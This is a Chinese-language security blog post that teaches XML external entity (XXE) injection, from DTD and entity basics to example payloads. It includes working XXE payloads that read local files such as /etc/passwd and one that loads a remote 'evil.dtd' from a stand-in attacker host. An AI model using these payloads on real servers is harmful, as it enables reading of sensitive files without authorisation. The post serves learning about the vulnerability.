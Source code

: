 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      XXE外部实体注入               # 标题 
subtitle:   XXE
date:       2020-04-04              # 时间
author:     z0L1n                      # 作者
header-img: img/post-bg-2015.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - 基础
---
```


## 0x00 XXE他是谁？
XXE：XML external entity injection,全称外部实体注入，也就是注入漏洞，下面大概展示一下：
<ag> 用户输入 </ag>   此时我们的用户输入如果为 111</ag><ag>222,那么这个语句为```<ag>111</ag><ag>222</ag>```，此时超出预期用户输入，便就是XML注入。
我们的XXE要注重于外部实体注入，那么先学习一下相关基础知识：

XML 文档有自己的一个格式规范，这个格式规范是由一个叫做 DTD（document type definition） 的东西控制的，他就是长得下面这个样子：  

```
<?xml version="1.0"?>//这一行是 XML 文档定义
<!DOCTYPE foo [
<!ELEMENT x ANY>
<!ENTITY xxe "jjjj">
]>
<x>&xxe;<x>
```
这里定义了XML 的根元素foo，然后下面有子元素x，其中实体为xxe。
当我们使用的时候只需添加一行
```<x>&xxe；</x>```即可引用，输出的时候&xxe;被替换为jjjj。

这里就要说一下啦外部实体和内部实体，以上就是内部实体了，外部实体为以下例子：
```<!ENTITY  xxe SYSTEM "file://c:/test.dtd">```  
引用外部实体的话，我们一旦对资源有修改都会自动更新，还有一种方法引用公用DTD

```
<!DOCTYPE   根元素名  PUBLIC “DTD标识名” “公用的DTD的URI”>
```

这里简单拓展一下通用实体和参数实体：  
通用实体：用 &实体名; 引用的实体，他在DTD 中定义，在 XML 文档中引用，```ps：<!ENTITY xxe "jjjj">···<x>&xxe;</x>```  
参数实体：  
(1)使用 % 实体名(这里面空格不能少) 在 DTD 中定义，并且只能在 DTD 中使用 %实体名; 引用  
(2)只有在 DTD 文件中，参数实体的声明才能引用其他实体  
(3)和通用实体一样，参数实体也可以外部引用  
例子如下：  

```
<!ENTITY % an-element "<!ELEMENT mytag (subtag)>"> 
<!ENTITY % remote-dtd SYSTEM "http://somewhere.example.org/remote.dtd"> 
%an-element; %remote-dtd;
```
学习到这里我们就应该知道实体构造是个怎么回事了，接下来根据表哥的例子来学习一波：  
1、payload：
```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE roottag [
<!ENTITY % start "<![CDATA[">   
<!ENTITY % goodies SYSTEM "file:///d:/test.txt">  
<!ENTITY % end "]]>">  
<!ENTITY % dtd SYSTEM "http://ip/evil.dtd"> 
%dtd; ]> 
<roottag>&all;</roottag>
其中evil.dtd内容为：
<?xml version="1.0" encoding="UTF-8"?> 
<!ENTITY all "%start;%goodies;%end;">
```

这里CDATA标志能让中括号里面的内容当做元素字符数据的常量部分，而不是xml标记，读取文件中的特殊字符。另外如果直接读取文件中的内容可以使用这个用法：

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE roottag [
<!ENTITY goodies SYSTEM "file:///d:/test.txt">  
]> 
<roottag>&goodies;</roottag>
```

XXE会出现的地方：
在现在前后端分离的时代，一般来说后端负责接收要传入的数据，然后经过一系列的黑盒运算之后将结果以json格式返回给前端，我们的后端可以使api接口也可以是后台代码，xxe经常出现在api接口能解析客户端传过来的xml，而且能直接外部实体引用，例子简单说一下：  
我们发出一个http请求后：

```
POST /xxxx HTTP/1.1
Host: xxxxxxx
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:57.0) Gecko/20100101 Firefox/57.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept:xxxxxx
<?xml version="1.0" encoding="utf-8"?> 
<roottag>XML</roottag>
```

服务器的XML处理器解析后返回：添加成功！！！  
我们尝试传入恶意代码：  

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE roottag [
<!ENTITY goodies SYSTEM "/etc/passwd">  
]> 
<roottag>&goodies;</roottag>
```

那么这样服务器的XML处理器解析后，如果没有经过严格的安全审核，会导致服务器端返回敏感文件信息，危害性大。  



   
继续 研读：：：：



